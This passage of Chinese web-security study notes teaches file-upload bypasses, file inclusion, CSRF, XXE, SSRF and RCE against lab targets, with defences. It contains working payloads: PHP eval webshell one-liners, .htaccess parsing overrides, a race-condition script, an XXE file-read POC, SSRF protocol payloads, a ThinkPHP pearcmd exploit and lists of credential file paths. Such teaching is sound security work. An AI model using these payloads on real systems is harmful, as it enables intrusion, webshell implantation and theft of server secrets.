          $file_ext = trim($file_ext); //首尾去空
          
          if (!in_array($file_ext, $deny_ext)) {
              $temp_file = $_FILES['upload_file']['tmp_name'];
              $img_path = UPLOAD_PATH.'/'.$file_name;
              if (move_uploaded_file($temp_file, $img_path)) {
                  $is_upload = true;
              } else {
                  $msg = '上传出错！';
              }
          } else {
              $msg = '此文件类型不允许上传！';
          }
      } else {
          $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
      }
  }
  ```

- htaccess文件绕过
  - 什么是htaccess文件
    - .htaccess文件（分布式配置文件）全称是Hypertext Access(超文本入口)
    - 作用：提供了针对目录改变配置的方法，即在一个特定的文件目录中放置一个包含一个或多个指令的文件，以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。
  ```
  htaccess文件是Apache服务器中的一个配置文件，它负责相关目录的网页配置。通过htaccess文件，可以帮我们实现：
  网页301重定向、自定义404错误页面，改变文件扩展名、允许/阻止特定的用户或目录访问，禁止目录列表、配置默认文档等功能。上传.htaccess文件，来绕过黑名单

  前提：
  1.mode_rewrite模块开启
  2.AllowOverride All
  ```
  - 由于.htaccess还是没有过滤，可以重写文件解析规则绕过，上传一个.htaccess，文件内容如下，意思是设置当前目录所有文件都是用PHP解析，那么无论上传任何文件，只要文件内容符合PHP语言代码规范，就会被当作PHP执行，不符合则报错
  - .htaccess文件
  ```html
  <!-- .htaccess文件 --> 
  <FilesMatch "phptest.jpg">
    SetHandler application/x-httpd-php
  </FilesMatch>

  在 .htaccess 文件中，应该使用井号 (#) 开始一行来添加注释，
  <!-- 代码里别加注释，否则会500报错 -->
  <!-- 只有geektime会被当作php解析 -->
  ```
  ```html
   <!-- .htaccess文件 -->
  <FilesMatch mime_module>
  SetHandler application/x-httpd-php
  </FilesMatch>

  <!-- 当前目录下所有文件都会被作为php解析 -->
  ```
  - 工作中，使用第一种进行测试
  - .htaccess不能起文件名，就叫.htaccess

- 双写后缀名绕过

### 服务端白名单绕过
- MIME类型检测绕过
  - 通过修改Content-Type类型
  

- 00截断绕过
  - 概述：
  ```
  00截断是操作系统层的漏洞，由于操作系统是C语言或汇编语言编写的，这两种语言在定义字符串时，都是以\0作为字符串的结尾，所以\0也被称为字符串结束标志，或者字符串结束符。操作系统在识别字符串时，当读取到\0字符时，就认为读取到了一个字符串的结束符号。因此，我们可以通过修改数据包，插入\0字符的方式，达到字符串截断的目的

  特别注意：\0是用户的输入经过层层解析后在系统底层的表现形式，因此用户在前端输入的时候是不能直接使用\0的，通常会使用%00或者0x00
  ```
  - 阶段条件：
  ```
  1.php版本小于5.3.4
  2.php.ini的magic_quotes_gpc为OFF状态
  ```
  - 具体过程，详见<a href="../homework/1014homework/hw1014.md">文件上传练习</a>
  - 注意：00阶段是使用在路径上的，且区分GET和POST


### 服务端内容检查绕过
- 文件头检查
  - 下面的文件头格式是16进制格式
  ```
  .jpg FF D8 FF E0 00 10 4A 46 49 46
  .gif 47 49 46 38 39 61
  .png 89 50 4E 47 
  ```
  - 16进制工具：MAC下使用工具Hex Fiend; Windows下使用010 editor
  - 图片马：
    - 概念：在图片中写入一句话木马，并且不破坏图片，图片依然能够正常打开
    - 运行图片马中的恶意代码，需要使用文件包含漏洞
      ```php
      利用：
      在upload-labs靶场，根目录下有一个include.php文件

      <?php
      /*
      本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
      */
      header("Content-Type:text/html;charset=utf-8");
      $file = $_GET['file'];
      if(isset($file)){
          include $file;
      }else{
          show_source(__file__);
      }
      ?> 

      该文件存在文件包含漏洞，根据代码，可使用
      http://192.168.0.90:8083/include.php?file=[图片地址的方式]
      来使用php解析图片中的二进制数据

      ```
  - 制作图片马的方式
    - 方式1：Windows下使用`copy /b file1 + file2 file3`，将file1和file2拼接成一个新的文件file3（本质上就是将两个文件的16进制数据，拼接到一起）
    - 方式2：
      - 在真实图片的尾部添加一句话木马
      - 在真实脚本的头部添加图片文件头（严格意义上来说，这不叫图片马）

- 突破getimagesize及exif_imagetype
  - upload-labs靶场(Pass-15)代码示例
  ```php
  function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)>=0){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
  }

  $is_upload = false;
  $msg = null;
  if(isset($_POST['submit'])){
      $temp_file = $_FILES['upload_file']['tmp_name'];
      $res = isImage($temp_file);
      if(!$res){
          $msg = "文件未知，上传失败！";
      }else{
          $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
          if(move_uploaded_file($temp_file,$img_path)){
              $is_upload = true;
          } else {
              $msg = "上传出错！";
          }
      }
  }
  ```
  - upload-labs靶场(Pass-15)代码是用getimagesize获取文件类型，在进行文件判断。此函数是获取文件类型是不是图片格式的，比如图片的长度和高度等。这个时候就不能再上传假图片了，需要上传一张真图然后抓包，在最后添加一句话木马或者直接使用图片马

- 二次渲染
  - 概念：就是根据用户上传的图片，新生成一个图片，将原始图片删除，将新图片添加到数据库中。比如一些网站根据用户上传的头像生成大中小不同尺寸的图像 
  - GIF
  ```
  渲染前后的两张GIF，没有发生变化的数据块部分直接插入webshell即可
  ```
  - PNG
  ```
  没有GIF那么简单，需要将数据写入到RLTE数据块或者IDAT数据块
  ```

### 代码逻辑（条件竞争）
```
条件竞争上传是一种服务器端的漏洞，由于后端程序操作逻辑不合理导致
由于服务器在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计不合理时，将会导致此类问题发生，此漏洞一般发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中
```
- Upload-labs(Pass-18)源码(条件竞争)
```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}

```
- 源码分析
  - 从源码来看，服务器先将上传的文件保存下来，然后将文件的后缀同白名单对比，如果符合，则重命名。如果不符合的话，unlink()函数就会删除该文件
  - 在不使用图片马（网站没有文件包含漏洞，无法执行图片马）的情况下，我们只能上传包含一句话木马的php脚本来解析运行。
  - 要知道代码执行的过程是需要耗费时间的，如果我们能赶在上传PHP脚本删除之前访问它，就能成功执行，这个也叫做条件竞争上传绕过

- 执行需要2部分
  - 利用burp多线程发包，不断在浏览器访问我们的webshell，会有一瞬间的访问成功
  - 写一个脚本，用来不断的上传我们的脚本

- 上传的脚本
  - 功能：在上传之后，删除前，访问到的一瞬间，执行代码，写一个webshell到该地址
  - 代码
  ```php
  <?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["test"])?>');?>
  ```

- 使用burp的爆破功能，实现自动反复上传文件
- 通过一个python脚本，不停的访问该文件
```python
import requests

url = "http://192.168.0.90:8085/upload/cs.php"

while True:
  html = requests.get(url)
  if html.status_code == 200:
    print("OK")

    break
```

### 文件上传漏洞安全防御
- 判断文件类型
  - 推荐白名单，此外对图片进行处理，可以使用压缩函数或者resize函数，在处理图片的同时破坏图片中可能包含的HTML代码

- 使用随机数改写文件名和文件路径

- 文件上传的目录设置为不可执行
  - 只要Web容器无法解析该目录下面的文件，即攻击者上传了脚本文件，服务器本身也不会受到影响

- 设置安全设备防御


## 文件包含漏洞
- 概述：
  - 程序开发人员一般会把重复使用的函数写道单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这种文件调用的过程一般被称为文件包含。程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但是正式由于这种灵活性，从而导致了客户端可以调用一个恶意文件，造成文件包含漏洞。
  - 在通过PHP函数引入文件时，由于传入的文件没有经过合理的校验，从而操作了预期之外的文件，导致意外的文件泄露甚至恶意代码注入

### 本地文件包含
- 只能包含本地服务器上存在的文件
  - 用户对输入可控且无过滤
  - 可以利用相对路径或绝对路径读取系统敏感文件

### 远程文件包含
- 包含远程服务器上的文件
- 需要php.ini开启了allow_url_fopen和allow_url_include的配置。包含的文件是第三方服务器（比如：攻击者搭建的一台Web服务器）的文件
  - allow_url_fopen=On (默认为On)规定是否允许从远程服务器或网站检索数据
  - allow_url_include=On(php5.2之后默认为Off)规定是否允许include/require远程文件

- 实验：
  - 靶机：DVWA (192.168.0.90:8086)
  - 远程服务器：upload-labs (192.168.0.90:8085)
  ```
  http://192.168.0.90:8086/vulnerabilities/fi/?page=http://192.168.0.90:8085/upload/phpinfo.txt
  ```
  - 这里的重点是，远程服务器的php文件不被本机解析，而让其被靶机解析

### PHP中文件包含函数有以下四种
```php
require()
include()

require_once()
include_once()
```
- include和require区别
  - include在包含过程中如果出错，会抛出一个警告，程序继续正常允许
  - require函数出现错误的时候，会直接报错并退出程序的执行

- include_once和require_once的区别
  - 这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，想确保它只被包括一次以避免函数重复定义，变量重新赋值等问题

### URL中可能存在文件包含漏洞的标记
```
?page=
?file=
?home=
```

### 常见的敏感信息路径
- Windows系统
```
c:\boot.ini  // 查看系统版本

c:\windows\system32\inetsrc\MetaBase.xml  // IIS配置文件

c:\windows\repair\sam   // 存储windows系统初次安装的密码

c:\programFiles\mysql\my.ini   //MYSQL root密码

c:\windows\php.ini  // php配置信息
```

- Linux/Unix系统
```
/etc/passwd  // 账户信息

/etc/shadow  // 账户密码文件

/usr/local/app/apache2/conf/httpd.conf  // Apache2默认配置文件

/usr/local/app/php5/lib/php.ini // php相关配置

/usr/local/app/apache2/conf/extra/httpd-vhost.conf  // 虚拟网站配置

/etc/httpd/conf/httpd.conf  // Apache配置文件

/etc/my.conf  // mysql 配置文件
```

### 如何发现文件包含漏洞
- 观察URL链接是否包括以下类似关键字：page/include/path/file/link/url等，如果有则可能存在文件包含漏洞

- 可以观察在URL中，出现的赋值参数等号后跟的信息是否为一个文件，如果是，则可能存在文件包含漏洞

- 在关键字处或明显被文件赋值的参数处尝试进行赋值，如/etc/passwd

- 配合文件上传漏洞进行测试

### 文件包含防护
- fnmatch()
  - 作用：根据指定的模式来匹配文件名或字符串
  - 语法：fnmatch(pattern,string,flags)
    - pattern：必需，规定要检索的模式
    - string：必需，规定要检查的字符串或文件
    - flogs：可选

### 文件包含getshell
#### 中间件日志包含绕过
- DVWA中，apache2日志文件路径为：/var/log/apache2/access.log

- 包含日志文件，需要先对文件和目录添加权限，让web端有权限去访问
  ```shell
  chmod 755 /var/log/apache2
  chmod 644 access.log
  ```
- 修改完权限之后，访问
  ```
  http://192.168.0.90:8086/vulnerabilities/fi/?page=<?php phpinfo();?>

  http://192.168.0.90:8086/vulnerabilities/fi/?page=/var/log/apache2/access.log
  ```
- 如果是上传一句话木马，使用蚁剑连接时，需要使用cookie值


#### 配合文件上传Getshell
- 详情见文件上传漏洞


## CSRF漏洞
- 跨站请求伪造(也称CSRF)，是一种挟持用户在当前已登录的Web应用程序上执行非本意操作的攻击方法，允许攻击者诱导用户执行他们并不打算执行的操作。当用户访问包含恶意代码的网页时，会向指定正常网站发送非本人意愿的数据请求包，如果此时用户恰好登录了该正常网站(也就是身份验证是正常的)，就会以该用户的身份执行该恶意代码的请求，从而造成CSRF漏洞

- 该漏洞允许攻击者部分规避同源策略，该策略旨在防止不同网站相互干扰
  - 同源策略：
  ```
  同源策略（Same-Origin Policy, SOP）是 web 浏览器实施的一种重要的安全机制。它用于隔离潜在的恶意文档，确保一个文档或脚本只能与其原始来源的数据进行交互，而不能访问或与其他来源的文档或脚本进行交互。

  具体来说，两个网页的来源被定义为协议、端口和主机三者的组合。只有当这三者都相同时，两个页面才被视为同源，从而可以相互通信。

  CSRF（跨站请求伪造）是一种利用用户已经登录的会话执行未授权操作的攻击。CSRF 不是直接违反同源策略，而是利用用户在某个站点的认证状态。攻击者通过某种方式诱使受害者访问一个恶意网站或点击一个链接，该网站或链接会发出一个预制的请求到目标站点，从而利用受害者的会话进行攻击。因为这个请求是从受害者的浏览器发出的，所以它会带有所有的凭证（例如 cookies），使得攻击成为可能。

  因此，CSRF并不是违反同源策略，而是利用它的限制进行攻击。为了防止CSRF攻击，网站通常会使用一种叫做"anti-CSRF token"的机制，这种令牌在每次请求时都会随机生成并验证。
  ```

### CSRF攻击示例
- 其中Web A为存在CSRF漏洞的网站，Web B为攻击者构建的恶意网站，User C为Web A网站的合法用户，CSRF攻击原理及过程如下：
```
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A

2. 在用户信息经过验证后，网站A产生cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；

3. 用户未退出网站A之前，在同一浏览器中打开一个TAB也访问网站B；

4. 网站B接收到用户请求后，返回一些攻击代码，并发出一个请求要求访问第三方站点A

5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行
```

### CSRF漏洞具备的三个前提条件
- <font color=tomato>一个功能操作。</font>应用程序中存在攻击者可能诱导用户的操作，这可能是特权操作(例如修改其他用户的权限)或对用户特定数据的任何操作(例如更改用户的邮箱、密码)

- <font color=tomato>基于Cookie的会话处理</font>。执行该操作涉及发出一个或多个HTTP请求，并且应用程序仅依赖会话Cookie来识别发出请求的用户，没有其他机制可用于跟踪会话或验证用户请求

- <font color=tomato>没有不可预测的请求参数</font>。执行该操作的请求不包含攻击者无法确定或猜测其值的任何参数。例如，当用户更改密码时，如果攻击者需要知道现有密码的值，则该功能不会受到攻击，因为攻击者预先构造的恶意链接中无法提前预测并定义现有密码的值

### CSRF漏洞利用代码-POST请求
```html
<html>
  <body>
    <form action="http://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="geek@time.com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```
- 如果受害者用户访问攻击者的网页，将会发生以下情况：
  - 攻击者的页面将触发对易受攻击的网站的HTTP请求
  - 如果用户已经登录到易受攻击的网站，他们的浏览器将自动在请求中包含他们的会话cookie（假设未使用SameSite cookie）
  - 易受攻击的网站将以正常方式处理请求，将其视为由受害者用户发出，并更改其电子邮件地址

### 伪造URL
- 使用短网址链接，将构造的payload链接伪装成短网址
- 短网址链接示例：
  - https://www.ft12.com/


### 防御CSRF漏洞
- 防御CSRF攻击的最可靠的方法是在相关请求中包含CSRF Token：
  - 对于一般的会话令牌，是不可预测的
  - 绑定到用户的会话
  - 在执行相关操作之前，在每种情况下都经过严格验证

#### 验证HTTP Referer字段
- 拿到Referer
- 分隔出Referer中的域名
- 根据后缀匹配域名是否是可信域
- 根据HTTP协议，在HTTP头中有一个字段叫Referer，它记录了该HTTP请求的来源地址。因此，要防御CSRF攻击，网站可以对关键功能的请求验证其Referer值，如果是本网站的域名，则说明该请求是来自于网站本身，是合法的。如果Referer是其他网站的话，则有可能是黑客的CSRF攻击，拒绝该请求

#### 在请求地址中添加token并验证

#### 添加验证码

## XXE漏洞
- 简介
  - XXE：XML External Entity(XML外部实体)，从安全角度理解成XML External Entity attack（外部实体注入攻击）。由于程序在解析输入的XML数据时，解析了攻击者伪造的外部实体而产生的漏洞
  - 例如：PHP中simplexml_load默认情况下会解析外部实体，有XXE漏洞的标志性函数是`simple_load_string()`

- XML外部实体
  - XML是用于标记电子文件使其具有结构性的标记语言，可以用来标记数据，定义数据类型，是一种允许用户对自己的标记语言进行定义的元语言。XML文档结构包括XML声明，DTD（文档类型定义）、文档元素

- XXE漏洞的挖掘
  - 首先寻找XML的功能点（即该接口与XML文档产生交互）
  - 通过观察请求包和响应包，看里面是否有符合XML文档格式的数据
  - 如果有的话，就通过该接口去测试自己构建的外部XML文档的解析情况

- XXE漏洞的POC代码
```xml
<?xml version="1.0"?>
<!DOCTYPE geek[
  <!ENTITY f SYSTEM "file:///etc/passwd">
]>

<hhh>&f;</hhhh>
```

- 防御XXE漏洞方法
  - 禁用外部实体
  ```
  //php:
  libxml_disable_entity_loader(true);

  //java:
  DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
  dbf.setExpandEntityReferences(false);

  //python:
  from lxml import etree
  xmlData = etree.parse(xmlSource,etree,XMLParse(resolve_entities=False))
  ```
  - 过滤用户提交的数据
  ```
  过滤关键词：<!DOCTYPE 和 <!ENTITY,或者SYSTEM和PUBLIC
  ```

## SSRF漏洞
### SSRF简介
- SSRF(Server-Side Request Forgery: 服务端请求伪造) 是由攻击者构造形成，由服务端发起请求的一种安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。正是因为它是由服务端发起的，所以它能够访问到与它相连而与外网隔离的内部系统


- 在Web服务器一般部署在DMZ区域
  - DMZ：DMZ（DeMilitarized Zone，非军事区）区域在计算机网络和网络安全中指的是一个物理或逻辑的子网络，它用来将内部网络（Intranet）和外部网络（例如互联网）隔离开来。在这个区域内的服务器提供了对外的服务，如web服务器、邮件服务器等，而这些服务又能被互联网上的用户访问。
  - DMZ的目的：
    - <font color=tomato>增强安全性</font>：通过将提供公共服务的服务器放在一个单独的区域内，DMZ有助于防止外部攻击直接进入内部网络
    - <font color=tomato>服务隔离</font>：即使DMZ内的服务器被攻破，攻击者也难以直接访问内部网络，因为DMZ提供了一个额外的安全层。
    - <font color=tomato>简化访问控制</font>：网络管理员可以更容易地控制哪些服务对外开放，哪些服务仅在内部网络中可用。
  - DMZ的常见布局：
    - <font color=tomato>单防火墙布局</font>：在这个布局中，所有的流量都必须经过一个防火墙。DMZ被配置在防火墙的一个接口上，而内部网络和外部网络分别连接到防火墙的另外两个接口上。
    - <font color=tomato>双防火墙布局</font>：这种布局使用了两个防火墙，提供了更强的安全性。外部网络、DMZ和内部网络分别连接到不同的防火墙上。这样即使DMZ中的服务被攻破，攻击者也需要突破第二道防火墙才能进入内部网络。

- 漏洞原理：
  - SSRF形成的原因大多是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。
  - 通过控制发起请求的Web服务器来当作跳板机攻击内网中其他服务。比如，通过控制前端的请求远程地址加载的响应，来让请求数据由远程的URL渔民给修改为请求本地，或者内网IP地址及服务，来造成对内网系统的攻击

- 漏洞危害：
  - 扫描内网开放服务
  - 向内部任意主机的任意端口发送payload来攻击内网服务
  - DOS攻击（请求大文件，始终保持连接Keep-Alive Always）
  - 攻击内网的web应用，例如直接SQL注入，XSS攻击等
  - 利用file、gopher、dict协议读取本地文件，执行命令等

### 检测与绕过
- 漏洞检测
  - 假设一个漏洞场景：某网站有一个在线加载功能可以把指定的远程图片加载到本地，功能连接如下
  ```
  http://www.xxx.com/image.php?image=http://www.xxc.com/a.jpg
  ```
  - 那么网站请求的大致步骤如下：
    - 用户输入图片地址
    - 请求发送到服务端解析
    - 服务端请求链接地址的图片数据
    - 获取请求的数据加载到前端显示
  - 这个过程中可能出现问题的点：
    - 访问请求发送到服务端的时候，图片加载请求是由服务端去加载的，而系统没有校验前端给定的参数是不是允许访问呢的地址域名，例如：如上的链接可以修改为：
  ```
  http://www.xxx.com/image.php?image=http://127.0.0.1:22
  ```
  - 如上请求时则可能返回请求的端口banner。如果协议允许，甚至可以使用其他协议来读取和执行相关命令。例如：
  ```
  http://www.xxx.com/image.php?image=file:///etc/passwd
  http://www.xxx.com/image.php?image=dict://127.0.0.1:22/data:data2(dict可以向服务端口请求data，data2)
  http://www.xxx.com/image.php?image=gopher://127.0.0.1:2333/_test(向2333端口发送数据test，同样可以发送Post请求)
  ```

### 文件包含与SSRF的区别
- 它们允许攻击者迫使服务器发起请求或包含来自远程服务器的文件。虽然这两种攻击类型都涉及到服务端的请求或包含操作，但它们的<font color=tomato>目标和攻击方式有所不同</font>。

- 文件远程包含 (FRI)
  - <font color=tomato>目的</font>：目标是将远程服务器上的文件包含到当前运行的脚本中。这通常发生在应用程序动态构建文件路径的时候，而且没有正确验证用户输入。
  - <font color=tomato>影响</font>：如果攻击者成功利用了文件远程包含漏洞，他们可能能够执行远程服务器上的脚本代码，或者读取服务器上的敏感文件。

- 服务端请求伪造 (SSRF)
  - <font color=tomato>目的</font>：目标是迫使服务器发起请求到攻击者指定的位置。这可能用于与内网中的其他服务交互，绕过防火墙，或发起其他不应该直接暴露给攻击者的请求。
  - <font color=tomato>影响</font>：攻击者可能能够访问内网资源，绕过防火墙，或者执行其他利用服务器网络位置的攻击。 

- 关键区别：
  - <font color=tomato> 执行 vs 请求</font>: FRI涉及到远程文件的执行，而SSRF涉及到对远程资源的请求。
  - <font color=tomato>攻击结果</font>: FRI通常导致代码执行或文件泄露，而SSRF通常导致内网资源暴露或被不当访问。
  - <font color=tomato>防御措施</font>: 防御FRI通常涉及限制文件包含函数的使用，确保它们不会处理不可信的用户输入。防御SSRF通常涉及验证和限制服务端可以发起请求的目标地址。

- 文件远程包含的执行过程
  - <font color=tomato>用户输入控制</font>：攻击者通过修改URL参数、表单数据或其他输入方式，提供一个指向远程文件的路径。
  - <font color=tomato>服务端处理</font>：服务端脚本不安全地处理这个输入，将其用作文件包含函数（如PHP的include、require等）的参数。
  - <font color=tomato>文件获取和执行</font>：服务端发起请求到远程文件的位置，获取其内容，并将其包含在当前脚本的执行流程中。

- 简化的SSRF攻击流程
  - <font color=tomato>客户端发起请求</font>: 用户（攻击者）发送一个请求到服务端，这个请求中包含了用户控制的输入，比如一个URL参数。
  - <font color=tomato>服务端处理请求</font>: 服务端接收到客户端的请求，并处理用户提供的输入。如果存在SSRF漏洞，服务端会不安全地使用这个用户控制的输入来发起另一个请求。
  - <font color=tomato>服务端发起请求</font>: 基于用户提供的输入，服务端发起请求到另一个资源，这可能是内部网络中的资源，也可能是外部资源。
  - <font color=tomato>返回响应</font>: 服务端接收到远程资源的响应，并可能将其返回给客户端或进行其他处理。

### 漏洞绕过
- 部分存在漏洞，或可能产生SSRF的功能中做了白名单或黑名单处理，来达到阻止对内网服务和资源的攻击和访问。因此想要达到SSRF的攻击，需要对请求的参数地址做相关的绕过处理，常见的绕过方式如下

- <font color=tomato>场景1</font>：限制为http://www.xxx.com域名时
  - 可以尝试采用http基本身份认证的方式绕过，通过添加@来构造URL：
    - http://www.aaa.com@www.bbb.com
  - 在对@解析域名时，不同处理函数存在处理差异，例如：http://www.aaa.com@www.bbb.com@www.ccc.com
    - 在PHP的parse_url中会识别www.ccc.com,而libcurl则识别为www.bbb.com

- <font color=tomato>场景2</font>：限制请求IP不为内网地址
  - 即限制访问所有内网IP，可采用短网址绕过，短网址转换
  - 使用进制转换将内网IP转换为其他进制的数字，例如：127.0.0.1
    - 八进制：0177.0.0.1
    - 十六进制：0x7f.0.0.1
    - 十进制：2130706433
    - 哪一种进制可以绕过需要我们进行尝试，和程序后端的处理逻辑有关系

- <font color=tomato>场景3</font>：限制请求只为http协议
  - 采用302跳转，百度短地址等

- 场景4：利用句号绕过
```
127。0。0。1 >>> 127.0.0.1
```

### 查看是否存在SSRF漏洞
- 排除法：浏览器F12查看源代码判断是否是在本地进行了请求
  - 举例：资源地址类型为http://www.xxx.com/a.php?image=(地址)的就可能存在SSRF

- Dnslog等工具进行测试，查看是否被访问
  - 生成一个域名用于伪造请求，看漏洞服务器是否发起DNS解析请求，若成功访问在http://DNSlog.cn上就会由解析日志

- 抓包分析发送的请求是不是由服务器发送的，如果不是客户端发出的请求，则有可能是，接着找存在HTTP服务的内网地址

- 访问日志检查：伪造请求到自己控制的公网服务器，然后再服务器上查看访问日志是否有来自漏洞服务器的请求

- 扫描工具

### 靶场Pikachu演示
- SSRF(curl)
  - PHP中curl函数是用来干什么的，curl是一个库，能让你通过URL和许多不同的服务器进行交流，并且还支持多个协议，重点是可以用来请求Web服务器。curl可以支持http认证、http post、ftp上传、代理、cookie、简单口令认证等功能。
  - 示例
  ```
  http://127.0.0.1:8000/vul/ssrf/ssrf_curl.php?url=file:///etc/passwd

  http://127.0.0.1:8000/vul/ssrf/ssrf_curl.php?url=https://baidu.com
  ```

- SSRF(file_get_content)
  - file_get_contents()函数的作用是把整个文件读入一个字符串中，是用于将文件的内容读入到一个字符串中的首选方法
  - php://filter：是一种元封装器，设计用于数据流打开时的筛选过滤应用。对于一体式（all-in-one）的文件函数非常有用，类似readfile()、file()和file_get_content()，再数据流内容读取之前没有机会应用其他过滤器
  - php://filter目标使用以下的参数作为它路径的一部分，复合过滤链能够再一个路径上指定。详细使用这些参数可以参考具体范例。
  <table>
    <thead>
      <th style="background-color:darkred;color:white;">名称</th>
      <th style="background-color:darkred;color:white;">描述</th>
    </thead>
    <tbody>
      <tr>
        <td>resource=<要过滤的数据流></td>
        <td>这个参数是必须的。它指定了你要筛选过滤的数据流，即要读的文件</td>
      </tr>
      <tr>
        <td>read=<读链的筛选列表></td>
        <td>该参数可选。可以设定一个或多个过滤器名称，以管道符(|)分隔</td>
      </tr>
      <tr>
        <td>write=<写链的筛选列表></td>
        <td>该参数可选。可以设定一个或多个过滤器名称，以管道符(|)分隔。</td>
      </tr>
      <tr>
        <td><;两个链的筛选列表></td>
        <td>任何没有以read=或write=作前缀的筛选器列表会视情况应用于读或写</td>
      </tr>
    </tbody>
  </table>

  - file_get_contents里面带有php://filter我们用它可以来读取php源码，所以构造URL
  ```
  http://127.0.0.1/vul/ssrf/ssrf_fgc.php?file=php://filter/resource=ssrf.php(会被解析)
  ```
  - 为了拿到ssrf.php的源码，需要使其不被解析，因此要对代码座一层编码，不让它被解析，拿到之后我们在进行解码，这样就拿到了网站的源代码：在read参数中加入convert.base64-encode
  ```
  http://127.0.0.1/vul/ssrf/ssrf_fcg.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
  ```
  - 然后网站出现了base64编码的代码
  - 使用base64解码，得到php源代码

### 漏洞修复
- 设置URL白名单或者内网IP黑名单
- 过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果Web应用是去获取某一种类型的文件，那么在将返回结果展示给用户之前先验证返回的信息是否符合标准
- 禁用不需要的协议，仅仅允许http和hppts请求，可以防止类似于file:///,gopher://,ftp://等引起的问题


## 远程代码执行RCE
### RCE概述
- 什么是RCE：
  - RCE英文全称：remote command/code execute，分为远程命令执行(比如ping)和远程代码执行(比如eval)
  - RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或代码，从而控制后台系统

- 远程命令执行
  - 出现原因：因为应用系统从设计上需要给用户提供指定的远程命令操作的接口
  - 比如常见的路由器、防火墙、入侵检测等设备的Web管理界面上，一般会给用户提供一个ping操作的Web界面，用户从Web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。而如果设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交意想不到的命令，从而控制整个后台服务器
  - 例如：如今很多企业的自动化运维平台，大量的系统操作会通过自动化运维平台进行操作，其中往往会出现远程系统命令执行的漏洞

- 远程代码执行
  - 出现原因：因为需求设计，后台有时候会把用户的输入作为代码的一部分进行执行，也就造成了远程代码执行漏洞

- 防御
  - 如果需要给前端用户提供操作类的API接口，一定需要对接口的输入内容进行严格的判断，比如实施严格的白名单是一个好的方法

### RCE的应用
- 命令行的几种操作方式
```
A && B：先执行A，如果成功，执行B；
A || B：先执行A，如果失败，执行B；
A | B：管道符，先执行A后，将A的结果作为B的输入，打印的B的结果；
A & B：先执行A，然后不管成功与否，执行B
A ; B：同上
```
### ThinkPHP RCE
- 简介：
  - Thinkphp是一个免费开源的，快速，简单的面向对象的轻量级PHP开发框架，是为了敏捷Web应用开发和简化企业应用开发而诞生的
  - 2022年12月，Thinkphp披露出在开启多语言功能的情况下存在文件包含漏洞，攻击者可以通过get、header、cookie等位置传入参数，实现目录穿越+文件包含，通过pearcmd文件包含trick即可实现RCE
  - 默认情况下，系统只会加载默认语言包，如果需要多语言自动侦测及自动切换，需要在全局的中间件定义文件中添加中间件定义，因此只有启用多语言并且使用存在漏洞的版本时才存在漏洞。
  ```
  漏洞利用条件：
  1. 多语言开启
  2. 安装pear库
  3. 知道pearcmd.php路径
  4. register_argc_argv = on

  注意：ThinkPHP的官方docker环境下，默认安装pear库，并开启4的配置项
  ```

- 影响范围
  ```
  6.0.1 < ThinkPHP <= 6.0.13
  5.1.0 < ThinkPHP <= 5.1.8
  5.0.0 < ThinkPHP <= 5.0.12
  ```

- 环境搭建
  ```
  docker pull vulfocus/thinkphp:6.0.12
  docker run -d -p 8080:80 vulfocus/thinkphp:6.0.12
  ```
- 漏洞演示
  - 前端测试是否存在pearcmd，访问路径，如果存在下图中的报错就确认存在
  ```
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd
  ```
  

- EXP
```
?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo()?>+/var/www/html/geektime1.php

提示：使用这个url的时候，会遇到url编码，需要在burp中将url编码复原

?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_REQUEST['a']);?>+/var/www/html/magedu1.php

提示：这里+相当于空格
```
- 已经在burp中更改了url编码后，发出请求包得到的响应


- 访问根目录下的geektime1.php，得到解析后的页面


- 修复建议：
  - 若无必要，可关闭多语言功能
  - 升级至最新版本

### Weblogic RCE
- 漏洞概述：
  - Weblogic未授权远程命令执行漏洞(CVE-2020-14482, CVE-2020-14483)
